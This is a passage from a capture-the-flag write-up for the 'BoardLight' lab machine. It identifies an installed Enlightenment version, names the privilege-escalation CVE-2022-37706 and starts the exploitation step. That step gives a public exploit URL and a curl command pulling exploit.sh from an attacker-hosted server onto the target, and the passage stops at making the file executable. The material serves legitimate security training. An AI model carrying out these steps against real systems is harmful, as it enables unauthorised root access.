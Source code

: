 ---------

## Task 11

What version of Enlightenment is installed on BoardLight?

Running the `--version` option shows the version.

```sh
enlightenment --version
ESTART: 0.00000 [0.00000] - Begin Startup
ESTART: 0.00016 [0.00016] - Signal Trap
ESTART: 0.00023 [0.00007] - Signal Trap Done
ESTART: 0.00032 [0.00008] - Eina Init
ESTART: 0.00066 [0.00034] - Eina Init Done
ESTART: 0.00074 [0.00008] - Determine Prefix
ESTART: 0.00092 [0.00018] - Determine Prefix Done
ESTART: 0.00098 [0.00006] - Environment Variables
ESTART: 0.00103 [0.00005] - Environment Variables Done
ESTART: 0.00108 [0.00005] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

-------------

## Task 12

What is the 2022 CVE ID for a vulnerability in Enlightenment versions before 0.25.4 that allows for privilege escalation?

As shown on the output of `linpeas` the CVE is `CVE-2022-37706`/

----------

## Task 13

Submit the flag located in the root user's home directory.

Now let's use this exploit.

Download the exploit from here:

```sh
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh
```

Save it to your local machine, and start in that directory a python server.

Then on the target machine, download the file using `curl`.

```sh
curl -o exploit.sh http://10.10.14.14:8000/exploit.sh
```

Add the execution permissions.
